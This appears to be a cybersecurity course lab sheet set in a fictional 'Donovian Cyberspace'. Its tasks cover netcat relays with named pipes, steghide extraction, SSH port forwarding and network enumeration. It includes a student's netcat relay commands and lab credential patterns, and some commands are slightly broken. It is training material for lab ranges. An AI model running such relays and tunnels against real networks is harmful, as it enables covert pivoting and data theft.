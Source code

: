 Donovian Tunnels and Collection (DTC)
XX OCT 2023
Start Time: 1300
Duration: 4 hours

Type of Operation: Reconnaissance, Tunneling, and Data Collection

Objective: You have been provided intel in regards to colecting key intelligence and sensitive data from Donovian Cyberspace, move and redirect all data back to your INTERNET_HOST. To aid in completion of this mission Gorgas cyber forces have provided your team access to the various systems in order to test and develop your technical code, with the intent of providing this for use during a future mission being executed by their cyber forces. Outlined below are three tasks that the regional COCOM Commander has laid out tasking for your team to provide support for and demonstrate successful functionality of these capabilities. You will be required to utilize previously learned and practiced skills to assist in reconnaissance and enumeration of these environments.

Scenario Credentials: FLAG = move_your_body_body

------------------------------------------------------------------------------------------------------------------------------

Task 1 Netcat Relay

Objective: You have been provided intel in regards to colecting key intelligence and sensitive data from Donovian Cyberspace, move and redirect all data back to your INTERNET-HOST. A Donovian Insider has stashed important information in the form of JPG images on T2. Each JPG image contains a piece of the message in the form of Steganography. Utilizing Netcat relays, you will use the designated RELAY to transfer the JPG images to your INTERNET-HOST. Once the images are downloaded you will use a command-line tool called steghide to extract the message.

Utilize the targets T1, T2, and RELAY to develop the following netcat relays for use by Gorgan Cyber Forces. The use of names pipes should be utilized on RELAY:

    The Donovian Insider provided a image called 1steg.jpg on T2 and is trying to connect to RELAY on TCP port 1234 to send the file. Establish a Netcat relay on RELAY to accept this connection and forward to T1. Use steghide to deode the message. Perform an MD5SUM on this message.

    The Donovian Insider provided a image called 2steg.jpg on T2 and is trying to connect to RELAY on TCP port 4321 to send the file. Establish a Netcat relay on RELAY to accept this connection and forward to T1. Use steghide to deode the message. Perform an MD5SUM on this message.

    The Donovian Insider provided a image called 3steg.jpg on T2 listening for a connection from RELAY on TCP port 6789. Establish a Netcat relay on RELAY to make this connection and forward to T1. Use steghide to deode the message. Perform an MD5SUM on this message.

    The Donovian Insider provided a image called 4steg.jpg on T2 listening for a connection from RELAY on TCP port 9876. Establish a Netcat relay on RELAY to make this connection and forward to T1. Use steghide to deode the message. Perform an MD5SUM on this message.

    Use the syntax: steghide extract -sf [image name] to extract the hidden message. Use password when prompted for a passphrase.


------------------------------------------------------------------------------------------------------------------------------

Task 2 Tunnels Prep

Untilizing the corresponding Task 2 Tunnels Prep start question, when the start flag in inputted, it will open up 20 simple questions all worth 5 points each. Please answer these questions before continuing on to Task 3.

-------------------------------------------------------------------------------------------------------------------------------

Task 3 Tunnel Training

Utilize the targets T3, and T4 to develop ssh tunneling capabilities for use by Gorgan Cyber Forces:

They have provided three practice challenges to get you started.

T3 is your designated initial Pivot from your INTERNET_HOST

When creating tunnels your authorized port ranges to utilize are:
NssXX
N = Net Number (1-4)
ss = Student Number (01-99)
XX = Selected port Number (00-99)

e.g. :
net-1, student 1, port forward 1 = 10101
net-2, student 1, port forward 2 = 20102
net-3, student 10, port forward 5 = 31005
net-4, student 12, port forward 10 = 41210
net-5, student 14, port forward 15 = 51415

    Create valid ssh Local Port Forward to leverage for follow-on actions

    Create valid ssh Remote Port Forward to leverage for follow-on actions

    Create valid ssh Dynamic Port Forward to leverage for follow-on actions

To help validate these technical capabilities Gorgan Cyber Forces have established a training range and have placed various flags within. As you successfully develop capabilities your team will find associated flags to validate they work.


------------------------------------------------------------------------------------------------------------------------------

Task 4 Data Collection
You are tasked to provide support for Gorgan Cyber Forces operating within Donovian Cyberspace. Utilizing all capabilities and skills developed, interact with the provided target T5 entry point and enumerate their network and systems.

Document all actions taken, intelligence gathered, and all other diagrams and evidence collected during each task for review by Mission Command

Tools/Techniques: Netcat (nc), Secure Shell (ssh), /dev/tcp, and any others you may require

Prior Approvals: Successfully develop valid netcat sessions as outlined, upon completion of Task 1, authorization from Mission Command (Instructor) is required to start Task 2. Once all techniques have been demonstrated, you will be granted authority to interact with systems throughout Donovian Cyberspace.

------------------------------------------------------------------------------------------------------------------------------

Scheme of Maneuver:
Task 1
```shell
#INTERNET_HOST (T1)
sudo nc 172.16.40.10 5555 > 1steg.jpg

#BLUE_INT_DMZ_HOST-1 172.16.40.10 (RELAY)
nc -lvp 1234 <fifopipe | nc -lvp 5555 > fifopipe
nc -lvp 4321 <fifopipe | nc -lvp 5555 > fifopipe


nc 172.16.82.115 6789 <fifopipe | nc -lvp 5555 > fifopipe

nc 172.16.82.115 9876 <fifopipe | nc -lvp 5555 > fifopipe
#BLUE_HOST-4 172.16.82.115 (T2)

nc -lvp 172.16.40.10 1234 < 1steg.png
```


Task 2
> INTERNET_HOST (T1)
→ T3
→ T4


Task 3
> INTERNET_HOST (T1)
→ T5

------------------------------------------------------------------------------------------------------------------------------

Target Section:

Task 1

T1
Hostname: INTERNET_HOST
External IP: 10.50.XXX.XXX (ALREADY PROVIDED) Internal IP: 10.10.0.40 (ALREADY PROVIDED) (accessed via FLOAT IP)
creds: (ALREADY PROVIDED)
Action: Successfully transfer file data between hosts via Netcat

T2
Hostname: BLUE_HOST-4
IP: 172.16.82.115
creds: (NONE)
Action: Successfully transfer files from this host using Netcat

RELAY
Hostname: BLUE_INT_DMZ_HOST-1
IP: 172.16.40.10
creds: (ALREADY PROVIDED)
Action: Successfully transfer file data between hosts via Netcat


Task 3

T3
Hostname: Atropia
IP: 10.50.XXX.XXX (Will be Provided by Mission Command)
creds: netY_studentX:passwordX (netY = Networking Class Identifier & studentX = Student Number & passwordX = Student Number)
Known Ports: 22(ssh)
Action: Establish appropriate tunneling techniques

T4
Hostname: Pineland
IP: 10.50.XXX.XXX (Will be Provided by Mission Command)
creds: netY_studentX:passwordX (netY = Networking Class Identifier & studentX = Student Number & passwordX = Student Number)
Known Ports: 23(telnet - go directly from T1 to T4 to simulate compromising the machine)
Type: Compromised Donovian System
Action: Establish appropriate tunneling techniques


Task 4
T5
Hostname: UNKNOWN
IP: 10.50.XXX.XXX (Will be Provided by Mission Command)
creds: netY_studentX:passwordX (netY = Networking Class Identifier & studentX = Student Number & passwordX = Student Number)
Known Ports: UNKNOWN
Action: Execute proper movement and redirection techniques